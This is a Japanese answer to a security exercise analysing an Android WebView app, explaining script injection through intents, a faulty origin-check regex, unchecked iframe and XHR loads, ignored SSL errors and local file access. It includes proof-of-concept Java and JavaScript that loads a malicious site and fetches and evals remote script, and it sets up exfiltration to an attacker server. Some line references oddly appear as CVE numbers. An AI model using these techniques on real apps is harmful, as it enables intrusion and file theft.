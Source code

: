 # 選択問題 14 　

主に

- 外部からスクリプトを注入できることと、
- そのスクリプトがインストール済みのアプリ一覧などのブラウザの外の情報にこのアプリの権限でアクセスできる

という問題があります。
これは主に `webview.getSettings().setJavaScriptEnabled(true);` というコードと、
CVE-2012-6636 の行によって発生します。

スクリプトを注入する方法について書きます。

まず、 CVE-2014-3500 の行を見ると外部からインテントで任意のページを渡せることが分かります。
CVE-2012-6637 の行でオリジンをチェックしているように見えますが正規表現にミスがあるため、
クエリストリングなどに ALLOW_ORIGIN を追加すれば特に問題はありません。

```java
// 外部のアプリからインテントを発行して任意のサイトにアクセスさせる例。
final String ACTION_LOAD = "jp.example.app.action.LOAD";
final String ALLOW_ORIGIN = "http://www.ipa.go.jp";
final String MALCIOUS_SITE = "http://example.com"
final Intent intent = new Intent(ACTION_LOAD);
intent.putExtra("url", MALCIOUS_SITE + "?" + ALLOW_ORIGIN);
sendBroadcast(intent);
```

また、 CVE-2014-1883 の行に関してですが、 iframe や XMLHttpRequest は shouldOverrideUrlLoading を経由しないので、
そもそもオリジンをチェックしていないことが分かります。
ALLOW_ORIGIN 内に iframe があり、iframe からリンクを辿れる場所に任意のスクリプト設置できるとすろと、
そこに悪意のあるスクリプトを設置し、待ち伏せすることが出来そうです。
XMLHttpRequest に関しては、スクリプトを任意のサーバに設置し、
XMLHttpRequest で取得し eval することなどが出来ます。

```javascript
// http://example.com に悪意のあるスクリプトが設置してあると仮定して、
// 外部のスクリプトを eval する例。
var malciousSite = "http://example.com";
var xhr = new XMLHttpRequest();
xhr.open("GET", malciousSite, false);
xhr.send(null);
var script = xhr.responseText;
eval(script);
```

加えて、 CVE-2014-5991 の行によって SSL のエラーを無視しているため DNS 偽装と正しくない証明書などを使って、
ALLOW_ORIGIN になりすますことも可能です。

注入したスクリプトによってどんな被害が生じるかについて書きます。
基本的に JavaScript で出来ることは何でも出来ます。
JavaScript だけでは出来ないことの例としてローカルのファイルにアクセスすることがありますが、
CVE-2012-4009 の行によってローカルのファイルにこのアプリの権限でアクセスできます。
よって、意図せぬファイルが外部のサーバに送信される可能性などがあります。
下記でいくつかコードの例を示すが、 `sendDataToServerOfAtaccker` という関数は、
文字列を攻撃者のサーバに送信する関数とします。
ここで、 Same Origin Policy の影響を受けるので、スクリプトはローカルか攻撃者のサーバにあるものとします。
